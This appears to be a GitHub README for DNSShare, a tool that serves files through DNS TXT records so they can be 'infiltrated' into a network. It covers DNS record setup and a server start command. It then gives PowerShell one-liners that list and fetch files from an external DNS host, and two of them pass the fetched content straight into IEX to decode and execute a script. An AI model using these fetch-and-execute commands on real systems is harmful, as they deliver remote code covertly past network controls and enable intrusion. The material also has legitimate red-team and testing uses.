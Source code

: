# DNSShare

Share (infiltrate) files over DNS with ease.

# Getting started

## Setup DNS records

1. Create an `A` record for your `example.com` pointing at your server IP address.
2. Create an `A` record for an `ns1` subdomain (i.e. `ns1.example.com`) that points to your server IP address.
3. Create an NS record with an arbitrary subdomain, for example `t` (i.e. `t.example.com`) which is managed by `ns1.example.com`.

## Start DNS server

```bash
python3 dnsshare.py -a <interface> -d <t.example.com> -f <files directory>
```

# Transfer files

## List directory content of the DNS server

```powershell
(Resolve-DnsName ls.t.example.com -TYPE TXT).Strings
```

## Obtain file into `$o` variable (as bytes)

```powershell
IEX((Resolve-DnsName file.txt.f.example.com -TYPE TXT).Strings[1])
```

## Obtain file, decode it and execute (ps1 script)

```powershell
IEX((Resolve-DnsName file.txt.c.t.example.com -TYPE TXT).Strings[1])
```

## Get remote file hash

```powershell
(Resolve-DnsName file.txt.f.t.example.com -TYPE TXT).Strings[0]
```
